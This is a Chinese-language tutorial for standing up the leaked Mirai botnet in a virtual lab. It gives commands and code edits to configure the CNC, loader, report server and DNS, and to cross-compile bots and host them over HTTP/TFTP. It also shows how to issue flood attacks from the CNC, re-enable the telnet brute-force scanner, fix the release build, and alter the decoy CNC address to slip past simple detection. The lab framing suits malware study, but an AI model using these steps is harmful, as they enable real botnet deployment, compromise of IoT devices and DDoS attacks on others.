## 服务器配置：
- 一台ubuntu服务器：CNC+MYSQL
- 一台ubuntu服务器：LOADER(REPORT)
- 一台ubuntu服务器：bot（作为感染机，和cnc进行通讯产生流量，并且扫描其他服务器）
- 一台windows server 2008R服务器：用于域名映射（必须要做，因为我们用内网需要配置DNS）

## ubuntu初始化
- 如果是virtualbox安装增强功能，可以自动调节窗口大小
- 先进行更新：
  ```shell
  sudo apt update
  ```
- 安装vim,ifconfig,ssh命令：
  ```shell
  sudo apt-get install vim net-tools openssh-server
  ```
- 安装telnet：
  ```shell
  sudo apt-get install openbsd-inetd telnetd -y
  ```
- 安装编译环境:
  ```shell
  sudo apt-get install git gcc golang electric-fence build-essential
  ```

## DNS服务器搭建
搭载一个DNS服务器，配置域名

| 域名 | 地址 |
| :--- | ---: |
| cnc.mirai.com | 192.168.56.101 |
|loader.mirai.com | 192.168.56.102 |


## 配置CNC服务器：
1.下载mirai:
```shell
git clone https://github.com/jgamblin/Mirai-Source-Code
```

2.编译加密工具
```shell
cd Mirai-Source-Code/mirai/tools && gcc enc.c -o enc.out
```

3.编译域名
```shell
./enc.out string cnc.mirai.com
\x41\x4C\x41\x0C\x4F\x4B\x50\x43\x4B\x0C\x41\x4D\x4F\x22
./enc.out string loader.mirai.com
\x4E\x4D\x43\x46\x47\x50\x0C\x4F\x4B\x50\x43\x4B\x0C\x41\x4D\x4F\x22
```

4.更改代码：

- 更换tables.c里面的两行配置
```shell
vim bot/tables.c
```



- 修改 ./dlr/main.c

将 IP 修改为 Loader 服务器的 IP：Loader_IP

 

- 修改 ./loader/src/main.c


 
这两个 IP 是 Loader 要绑定的 IP，将 IP 修改为 Loader 服务器的 IP


 
这两个 IP 分别是提供 HTTP 服务和 TFTP 服务的 IP 
这里需要注意的是，如果你配置有单独的 HTTP 服务器或者 TFTP 服务器，那么 IP 要填写对应的服务器地址，我这里都一样是因为把这些服务都放在了一台服务器上。
修改mirai/bot/resolv.c更换DNS地址是刚刚配置的域名服务器静态地址
 


5.安装mysql。

**详情见ubuntu安装环境文档**

6.启动mysql：

这边前提是装好了数据库，并且修改了root密码
```shell
systemctl start mysql
```

7.执行数据库脚本：
```shell
cat db.sql | mysql -uroot -proot
mysql -uroot -proot mirai
INSERT INTO users VALUES (NULL, 'mirai-user', 'mirai-pass', 0, 0, 0, 0, -1, 1, 30, '');
Exit
```
这一系列操作可以看到user表有一记录：
 


8.编辑cnc下的main.go：
```shell
vim ../mirai/cnc/main.go
```


 
9.创建cross-compile-bin

进入mirai根目录下创建文件夹

```shell
mkdir cross-compile-bin
```



10.下载

进入文件夹
```shell
cd cross-compile-bin
```
下面按条执行下载（记得用root权限）
```shell
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv5l.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i686.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-x86_64.tar.bz2
```

11.修改脚本并启动脚本

进入scripts
```shell
cd ../scripts
vim cross-compile.sh
```
由于我没找到armv6l包，因此我把脚本中armv6l的语句注释了，详情见下图：
 


12.保存后启动执行

```shell
sudo ./cross-compile.sh
```
会提示：Install mysql-server and mysql-client (y/n)?输入 n不安装

13.编辑环境
```shell
vim ~/.bashrc
```
在最后面添加：
```shell
export PATH=$PATH:/etc/xcompile/armv4l/bin
export PATH=$PATH:/etc/xcompile/armv5l/bin
export PATH=$PATH:/etc/xcompile/i586/bin
export PATH=$PATH:/etc/xcompile/m68k/bin
export PATH=$PATH:/etc/xcompile/mips/bin
export PATH=$PATH:/etc/xcompile/mipsel/bin
export PATH=$PATH:/etc/xcompile/powerpc/bin
export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
export PATH=$PATH:/etc/xcompile/sh4/bin
export PATH=$PATH:/etc/xcompile/sparc/bin
export GOPATH=$HOME/go
```
 


14.创建文件夹，并且刷新环境：
```shell
mkdir ~/go
source ~/.bashrc
```

15.安装go环境驱动：
```shell
go get github.com/go-sql-driver/mysql
go get github.com/mattn/go-shellwords
```
 


16.启动mirai脚本

```shell
cd ~/Mirai-Source-Code-master/mirai/
./build.sh debug telnet
```

将输出debug的二进制程序，打印是否可以连接CNC等信息，洪水的状态等，编译到./mirai/debug folder文件夹下面
 


输出生产的bot二进制文件
```shell
./build.sh release telnet
```

## 启动cnc

**用root登入CNC**

- 在prompt.txt的路径下启动CNC服务器：
```shell
./debug/cnc
```

- 然后新开一个shell，通过telnet连接cnc主机23端口
```shell
telnet 192.168.56.104 23
```
 


- 直接回车进入登录界面，输入数据库中用户名和密码（用户名：mirai-user，密码：mirai-pass）


 
登入成功后
 


此时已经登录主控端程序

**注意：**

如果提示0.0.0.0:23端口被占用，进行以下操作

```shell
netstat -nap | grep 23
# 找到第一个0.0.0.0:23 LISTEN 端口号/服务id
kill 端口号
```


## 配置loader服务器

1.配置 HTTP: 
```shell
sudo aptitude install apache2
```
在 apache 根目录建立bins文件夹，将编译出的不同平台的 bot 病毒放入，以供下载。

2.配置 TFTP
```shell
apt-get install -y tftpd-hpa
vim /etc/default/tftpd-hpa
TFTP_USERNAME="tftp"
TFTP_DIRECTORY="/tftpboot"
TFTP_ADDRESS="0.0.0.0:69"
TFTP_OPTIONS="--secure --create"
service tftpd-hpa restart
```

3.利用xftp工具将cnc的代码直接拷贝到loader服务器上

由于拷贝的代码，所有的脚本没有执行权限，需要输入命令
```shell
sudo chmod +x *
```

4.启动loader
```shell
cd ~/Mirai-Source-Code-master/loader
./build.sh
# 构件loader: 
./loader 
```

5.获取监听到的爆破账号：在promot文件下 
```shell
sudo ./debug/scanListen
```

在之前teble.c中配置的report服务器中运行./scanListen，默认监听48101端口，该服务将接收bot爆破出的结果。
```shell
cd /Mirai/mirai/debug && ./scanListen
```
scanner成功爆破出结果时，会通过resolv模块寻找report服务器所在IP，然后通过report模块发送受害者的信息，如图：
 


此时report-server接收到数据如下
 


## 构建bot

- 将cnc里的mirai代码拷贝至bot服务器，然后赋予脚本执行权限
```shell
sudo ./debug/mirai.dbg
```

如果成功连接，则会显示如下界面
 


此时CNC主控端会显示bot数量
 


到此我们要的东西已经完成。剩下的是用wireshark抓包工具抓取流量

## 攻击指令

提示参数：?

这里?可以理解为一个占位符，解释当前位置参数的意义。

输入?获取攻击命令

 

输入udp ?查看下一个参数的提示，然后每次输入一个参数之后都可以使用?查看进一步提示。

 

用户通过CNC执行攻击指令之后，bot会收到CNC命令并对目标发起攻击：
 


同时，在CNC的Mysql库中也可查询到攻击历史：
 


## telnet爆破

之前我们使用./build debug telnet作为测试环境查看debug信息输出，并已成功使用CNC控制Bot发起攻击。现在我们来关注Mirai感染并控制Bot的流程。

Bot扫描网段内开启telnet的设备，并使用内置字典爆破之，将成功之后的信息返回

该功能在main.c实现，源码默认在Debug模式下关闭了scanner的功能，为方便调试，我们需要修改源码：

```shell
/Mirai/mirai/bot/main.c line 158
```
 


将#ifndef DEBUG和#endif两行注释掉

重新编译并运行，就可以看到scanner的调试信息，注意要以root权限运行
 


- Mirai 为了增加安全性，在源码中使用了一个假的主控地址，用来迷惑分析人员，真实的地址是从代码中进行解密并请求 DNS 解析进行获取的，假地址位于 ./mirai/bot/includes.h中，如果对 Mirai 进行变异，可以修改这个地址，应该可以规避一些简单的检测
- Mirai 在 ./mirai/bot/resolv.c 中定义了 DNS 地址，默认是请求 Google 的 DNS 服务器 8.8.8.8 进行地址解析。这个 DNS 地址可以修改，如果是在实验室内网做实验，无法使用 Google 服务的情况下，应该修改成实验室使用的 DNS，不然可能会造成实验无法成功。
- Mirai 的 debug 编译和 release 编译有所区别，release 除了不输出各种信息外，其流程也并不完全一样，比如 release 对 Table 的使用并不加锁，运行 Debug 版的时候，信息输出如下：

```
DEBUG MODE YO
[main] We are the only process on this system!
listening tun0
[main] Attempting[ to kicollennr] eTrcyint g tto ko illCN pCort 23
[killer] Finding and killing processes holding port 23
Failed to find inode for port 23
[killer] Failed to kill port 23
[killer] Bound to tcp/23 (telnet)
[resolv] Got response from select
[resolv] Found IP address: f3251c73
Resolved xxxx.xxx.xx to 1 IPv4 addresses
[main] Resolved domain
[main] Connected to CNC. Local address = -335435584
[killer] Detected we are running out of `/Mirai/mirai/debug/mirai.dbg`
[killer] Memory scanning processes
[table] Tried to access table.11 but it is locked
Got SIGSEGV at address: 0x0
```
其中显示想使用 table.11 ，但是并没有解密，这里应该修改 killer.c的 172 行，在后面加入 table_unlock_val(TABLE_KILLER_STATUS);，在 185 行后面加入 table_lock_val(TABLE_KILLER_STATUS);，重新编译运行，这个报错就会消失。

## Bot 的扫描

在 debug 模式下，是观察不到扫描现象的，这是因为源码在 debug 模式中关闭了扫描功能。相关代码在 main.c 中。

```
#ifndef DEBUG
    if (fork() > 0)
        return 0;
    pgid = setsid();
    close(STDIN);
    close(STDOUT);
    close(STDERR);
#endif

    attack_init();
    killer_init();
#ifndef DEBUG
#ifdef MIRAI_TELNET
    scanner_init();
#endif
#endif
```
可以看到，不是 debug 模式的时候，才会初始化扫描器，所以将 #ifndef DEBUG和#endif注释掉，重新编译，即可开启扫描功能。

## table 初始化的启动方式

实验时一般使用 debug 模式编译和实验，但是如果使用 release 版本，就会发现不稳定，甚至无法成功，
这是因为 debug 和 release 的初始化方式和控制方式不一样，release 采用信号控制，并且在函数入口的寻找上做了混淆，
主要函数是 unlock_tbl_if_nodebug，如果使用 release 版本，可以做一下修改：

```
#ifndef DEBUG
    (obf_funcs[fold])();
    matches = util_strcmp(argv0, buf_dst);
    util_zero(buf_src, sizeof (buf_src));
    util_zero(buf_dst, sizeof (buf_dst));
    return matches;
#else
    table_init();
    return TRUE;
#endif
```

将这段代码里面的 debug 模式和 release 模式调换。

## 关于杀灭设备中的其他病毒

Mirai 具有独占性，一旦Mirai 感染了某一个设备，它会寻找设备上的其他僵尸网络，并将其杀掉，以让自己成为这个设备的唯一控制者，
其杀死竞争者的相关代码位于 killer.c 中。经过解密，我发现它给其他 bot 的特征的定义是：

```
REPORT %s:%s
HTTPFLOOD
LOLNOGTFO
zollard
GETLOCALIP
```

也就是说，如果在进程路径名中发现了以上这些字符串，则杀掉那个进程。

此外，Mirai 对自身进程名做了伪装，每次运行 Mirai，其进程名字都是随机的字符串，所以如果对 Mirai 进行变异，并且想杀掉 Mirai 的话，并不能用 Mirai 检测其他bot的方法，来检测 Mirai 自身。

## Mirai 可能是半成品

从 Mirai 的编译脚本和代码中分析，Mirai 定义了 TELNET 和 SSH 两个编译选项，并且代码中有相关的宏开关，但是从目前的代码看，并未发现 SSH 猜解和登陆的相关功能。
个人猜测 Mirai 原本打算开发 TELNET 和 SSH 两个功能，但是目前只完成了一半，或许是只完成了一半，或许是 SSH 的部分原作者并未放出，真实情况不得而知。